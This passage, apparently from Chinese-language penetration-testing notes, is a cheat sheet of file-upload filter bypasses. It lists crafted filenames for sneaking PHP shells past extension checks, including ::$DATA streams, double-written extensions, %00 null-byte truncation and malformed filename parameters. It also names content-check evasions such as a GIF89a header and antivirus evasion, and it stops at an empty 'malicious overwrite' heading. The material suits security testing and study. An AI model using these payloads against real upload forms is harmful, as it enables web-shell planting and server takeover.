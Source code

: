     - `xxx.php. .jpg`
- 特殊字符
    - `xxx.php::$DATA` (windows)
    - `xxx.php::$DATA......` (windows)
    - `xxx.php/`
    - `xxx.php?`
    - `xxx./php` (linux)
- 特殊字符+白后缀
    - `xxx.php.jpg`
    - `xxx.php_.jpg`
    - `xxx.php/1.jpg`
    - `xxx.php{}.jpg`
    - `xxx.php;jpg`
    - `xxx.php;.jpg`
    - `xxx.php;+x.jpg`
    - `xxx.php:1.jpg`
    - `xxx.php.123`
    - `xxx.jpg/.php`
    - `xxx.jpg/php`
    - `xxx.jpg/1.php`
    - `xxx.jpg{}.php`
- 双写绕过
    - `phpphp.php`
    - `php.php`
    - `xxx.pphphp`
    - `xxx.asaspxpx`
- 00 截断
    - `file.jpg%00shell.php`
    - `shell.php%00file.jpg`
    - `shell.php%00.jpg`
- .htaccess
- 中间件解析漏洞
- 参数
    - 修改 `filename="xx.php"` 为 `filename==="xxx.php"`
    - 修改 `filename="xx.php"` 为 `filename='xxx.php'`
    - 修改 `filename="xx.php"` 为 `filename=xxx.php`

---

## 文件内容检测

- 免杀
- 添加图片头
    - `GIF89a`
- 大文件
- 参数污染

---

## 恶意覆盖

